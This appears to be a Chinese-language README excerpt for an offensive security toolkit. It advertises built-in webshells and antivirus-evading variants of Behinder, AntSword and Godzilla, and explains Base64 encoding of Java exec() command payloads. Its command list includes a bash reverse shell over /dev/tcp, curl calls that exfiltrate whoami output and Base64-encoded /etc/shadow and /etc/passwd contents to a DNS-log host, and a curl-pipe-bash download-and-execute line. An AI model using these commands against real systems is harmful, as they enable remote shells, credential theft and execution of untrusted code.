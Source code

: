 
##### **【Webshell】**

内置各种语言的基本一句话webshell和部分免杀马，以及冰蝎、蚁剑、哥斯拉等常见webshell的免杀马，共安全人员参考。

<div align=center><img src=images/image-20240830151318754.png width=80% ></div>

#####  **【java编码】**

有时，通过 `Runtime.getRuntime().exec()` 执行命令有效负载会导致失败。使用 WebShell，反序列化利用或通过其他媒介时，可能会发生这种情况。

有时这是因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义。例如，`ls > dir_listing`在shell中执行应该将当前目录的列表输出到名为的文件中`dir_listing`。但是在`exec()`函数的上下文中，该命令将被解释为获取`>`和`dir_listing`目录的列表。

其他时候，其中包含空格的参数会被StringTokenizer类破坏，该类将空格分割为命令字符串。那样的东西`ls "My Directory"`会被解释为`ls '"My' 'Directory"'`。

在Base64编码的帮助下，java命令编码转换器可以帮助减少这些问题。它可以通过调用Bash或PowerShell再次使管道和重定向更好，并且还确保参数中没有空格。

常用命令清单

```
bash -i >& /dev/tcp/127.0.0.1/6666 0>&1
ping `whoami`.key.dnslog.cn
curl http://www.google.com/bash.txt|bash
curl http://key.dnslog.cn/?r=`whoami`
curl http://key.dnslog.cn/?r=`cat /etc/shadow|base64`
curl http://key.dnslog.cn/?r=$(cat /etc/passwd|base64|tr '\n' '-')
curl http://www.google.com/key.txt
curl http://www.google.com/key.txt -O
curl http://www.google.com/key.txt -o key.txt
```
